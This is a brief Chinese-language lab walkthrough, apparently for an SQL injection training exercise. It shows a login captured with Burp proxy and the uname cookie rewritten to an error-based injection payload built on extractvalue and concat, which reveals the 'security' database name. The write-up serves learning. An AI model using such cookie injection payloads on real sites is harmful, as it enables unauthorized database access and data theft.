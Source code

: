burp 抓包



proxy 板块

```
admin
admin
```

 第二个forward，界面出现Cookie：uame=admin



改

```
Cookie: uname=admin' and extractvalue(1,concat(0x7e,(select database()),0x7e))#
```

爆出security库

.

.

.

后续为一般操作
